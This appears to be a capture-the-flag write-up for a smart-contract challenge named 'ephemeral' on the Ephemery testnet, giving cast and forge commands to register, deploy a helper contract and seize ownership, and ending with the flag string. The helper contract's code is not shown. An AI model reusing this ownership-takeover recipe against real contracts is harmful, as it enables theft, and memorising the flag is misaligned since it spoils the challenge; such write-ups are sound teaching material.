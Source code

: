 # ephemeral POC

0. Get 32 ETH from ephemery testnet faucet
1. Register challenge using cast
```
cast send --chain 39438141 --private-key 0x... --rpc-url http://... SETUP_ADDR "register()"
```
2. Get the challenge address
```
cast call --chain 39438141 --from PLAYER_ADDR  --rpc-url http://... SETUP_ADDR "getChallenge()"
```
3. `forge init`
4. Put `Helper.sol` at `src/`
5. `forge build`
6. Inspect and copy the bytecode of `Helper` contract by `cat out/Helper.sol/Helper.json` (use the `bytecode.object` value)
7. Deploy `Helper` contract and copy the newly deployed contract address
```
cast send --chain 39438141 --private-key 0x... --rpc-url http://... --create BYTECODE
```
8. send `getOwnership`
```
cast send --chain 39438141 --private-key 0x... --rpc-url http://... CHAL_ADDR "getOwnership(address)" HELPER_ADDR
```
9. Use verifiyer to get flag
```
ARA6{sh0u7_out_70_3ph3me24l_prov1d3r5}
```
